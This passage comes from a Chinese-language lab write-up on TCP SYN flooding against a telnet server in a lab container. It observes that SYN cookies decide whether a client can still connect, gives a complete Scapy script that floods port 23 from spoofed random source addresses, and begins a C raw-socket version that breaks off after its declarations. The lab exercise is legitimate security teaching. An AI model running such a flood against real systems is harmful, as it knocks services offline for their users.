     telnet 172.17.0.2

输入用户名和密码

关闭syn_cookies的情况下，客户机将无法连接到服务器

开启情况下，可以成功连接

### scapy

和上面的操作类似，只不过攻击命令进行了更改

以下是攻击机上运行的脚本

    #!/usr/bin/python3

    from scapy.all import IP, TCP, send

    from ipaddress import IPv4Address

    from random import getrandbits



    ip = IP(dst="172.17.0.2")

    tcp = TCP(dport=23, flags='S')

    pkt = ip/tcp



    while True:

        pkt[IP].src = str(IPv4Address(getrandbits(32)))

        pkt[TCP].sport = getrandbits(16) #source port

        pkt[TCP].seq = getrandbits(32)    #sequence number

        send(pkt, verbose = 0)

### c程序进行攻击

    #include <unistd.h>
    #include <stdio.h>
    #include <stdlib.h>
    #include <time.h>
    #include <string.h>
    #include <sys/socket.h>
    #include <netinet/ip.h>
    #include <arpa/inet.h>

    #include "myheader.h"

    #define DEST_IP    "172.17.0.2"
    #define DEST_PORT  23  // Attack the web server
    #define PACKET_LEN 1500

    unsigned short calculate_tcp_checksum(struct ipheader *ip);
    void send_raw_ip_packet(struct ipheader* ip);
